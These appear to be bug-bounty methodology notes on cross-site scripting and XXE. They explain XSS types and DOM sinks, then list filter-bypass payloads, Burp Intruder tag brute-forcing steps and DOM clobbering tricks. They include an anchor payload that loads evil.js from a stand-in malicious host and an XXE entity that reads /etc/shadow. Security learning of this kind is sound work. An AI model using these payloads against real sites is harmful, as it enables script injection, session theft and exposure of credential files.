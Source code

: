 # Xss

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50"> Theory

### types
#### Stored (Persistent) 
XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

#### Reflected (Non-Persistent) XSS 	
Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)


#### DOM-based XSS 	Another Non-Persistent 
XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)


### Source & Sink

To further understand the nature of the DOM-based XSS vulnerability, we must understand the concept of the Source and Sink of the object displayed on the page. The Source is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.

On the other hand, the Sink is the function that writes the user input to a DOM Object on the page. 
```
    document.write()
    DOM.innerHTML
    DOM.outerHTML

jQuery library functions that write to DOM objects are:
    add()
    after()
    append()
```

------------------------------------------

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50"> xss bypass
### innerHTML 
The innerHTML function does not allow the use of the <script> tags within it as a security feature
```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```
As alternative it can be used something like
```javascript
<img src="" onerror=alert(window.origin)>
```

### else
```js
<<a|ascript>alert('xss')</script>
```

##  Deprecated Interface XXE injection
Use a deprecated B2B interface that was not properly shut down. XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
- search xxe payload
- look for POST requests
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&xxe;</lastName>
</userInfo>
```
--------------------------------------------

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50"> Tags bruteforcing
- [How to search for XSS (with blacklisted HTML tags)](https://www.youtube.com/watch?v=0kfQsRwr_Bc)
- [portswigger/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### steps 
Searching for allowed tags to be inserted in the search field as parameter
1. 'insertpayloadhere' in the field
2. intercept with burp and send to intruder
3. add the tag list to the payload in the intruder settings
4. brute force and look for the 200, we're looking for a tag which allow to have <script> </script>
5. once the tag has been found you need to search for the event eg:onbegin
6. in the search field we will use url encoding: 
```
%3C -> < 
%3E -> >
%20 -> space
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert%28%22xss%22%29%3E
```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50"> Waf bypass with anchor
- [Two solutions for the January 2021 Initigriti XSS Challenge](https://www.youtube.com/watch?v=Wbovgw3Qxxc)
```
onmouseover=alert(document.location.has.substring(1))#payloadhere
```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50"> DOM XSS
```
 <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay"
 src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&
 auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
 ```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50">  Exploiting DOM clobbering to enable XSS
- [Two solutions for the January 2021 Initigriti XSS Challenge]([https://www.youtube.com/watch?v=Wbovgw3Qxxc](https://youtu.be/Wbovgw3Qxxc?t=912))
- [portswigger/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [portswigger/dom-based/Advanced-dom-clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)
- [HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)
![](https://i.redd.it/z8hid4itywd91.png)
#### Clobbering definition:
To strike violently and repeatedly; batter or maul. But, In software engineering and Computer science, clobbering a file, Processor register or regions of computer memory is the process of overwriting its contents completely. 
#### Explanation:
~~DOM clobbering is a technique to escalate HTML injection to XSS which has a high impact  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.~~
DOM Clobbering use the HTMLCollection vulnerability which allow you to add to the HTMLCollection a malicious item with the same id. 
#### Steps:
1. find a form where you can submit some html
2. check in the javascript if there is a ```window.element || something here``` 
3. bypass the sanitization with double anchortag
  - ```<a id=defaultAvatar><<a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//)"'>```
  - ```<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>```


## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="50" height="50"> Videos:
- xss API [video](https://youtu.be/xH8WbuApFXw?t=2358)
  - filtering and sanitazation come frontend back end.
  - Always test that frontend and backend are sanitized.
  - eg: registering an account by API with email.
- [w3schools.com/xml](https://www.w3schools.com/xml/xml_dtd.asp)
- [XXE Lab Breakdown: Exploiting XXE using external entities to retrieve files](https://www.youtube.com/watch?v=71dZaGfOVqw)
- [How to search for XXE!](https://www.youtube.com/watch?v=0DQnWalxYb4)
- [Web App Testing: Episode 3 - XSS, SQL Injection, and Broken Access Control](https://www.youtube.com/watch?v=azYwfI26oXo&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=3)


 
